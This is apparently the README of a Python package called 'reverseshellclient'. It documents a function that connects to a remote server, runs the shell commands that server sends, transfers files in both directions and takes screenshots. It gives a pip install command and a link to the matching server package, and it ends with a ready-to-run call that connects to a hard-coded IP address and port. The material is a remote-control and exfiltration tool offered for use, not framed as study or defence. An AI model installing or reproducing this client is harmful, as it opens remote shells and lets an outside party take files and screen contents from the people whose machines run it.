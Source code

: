 # Reverse shell client for unbureaucratic server/client connections with file transfer / screenshots 

## pip install reverseshellclient 

#### Tested against Windows 10 / Python 3.10 / Anaconda 


Connect to the server at the specified IP address and port, and perform a reverse shell client-server communication.
To install the server: https://pypi.org/project/reverseshellserver/

Parameters:
	ipaddress (str): The IP address of the server to connect to.
	port (int): The port number of the server to connect to.
	byte_len (int, optional): The maximum size of each data chunk (in bytes) used for communication with the server.
	command_putfile (str, optional): The command prefix used to indicate a request from the server to send a file to the client.
	command_getfile (str, optional): The command prefix used to indicate a request from the server to receive a file from the client.
	command_screenshot (str, optional): The command that, when sent by the server, requests the client to take a screenshot and send it back as an image file.
	command_getcwd (str, optional): The command that, when sent by the server, requests the client to send the current working directory path.
	command_putfile_sep (bytes, optional): The separator used to split the 'putfile' command and the filename along with the file content.
	command_start (bytes, optional): The marker used to indicate the start of a command transmission.
	command_end (bytes, optional): The marker used to indicate the end of a command transmission.
	before_stdout (bytes, optional): Bytes to prepend before the standard output of the executed command in the response to the server.
	before_stderr (bytes, optional): Bytes to prepend before the standard error of the executed command in the response to the server.

Note:
	- This function connects to the server specified by 'ipaddress' and 'port'.
	- It performs a continuous loop of client-server communication until interrupted.
	- The 'before_stdout' and 'before_stderr' parameters are used to format the response to the server when executing shell commands.
	- The 'command_putfile', 'command_getfile', 'command_screenshot', and 'command_getcwd' prefixes are used to indicate specific actions from the server.
	- The 'command_putfile_sep' is used to split the 'putfile' command and the filename along with the file content.
	- 'command_start' and 'command_end' are used to wrap the encoded command for large data transmissions.
	
```python
    r"""
from reverseshellclient import connect_to_server
connect_to_server(
	ipaddress="171.181.217.19",
	port=12345,
	byte_len=32768,
	command_putfile="putfile",
	command_getfile="getfile",
	command_screenshot="screenshot",
	command_getcwd="getcwd",
	command_putfile_sep=b"FILESEP",
	command_start=b"START_START_START",
	command_end=b"END_END_END",
	before_stdout=b"stdout:\nxxxxxxxxxxxxxxxxxx\n",
	before_stderr=b"\nxxxxxxxxxxxxxxxxxx\nstderr:\n",
)

		
```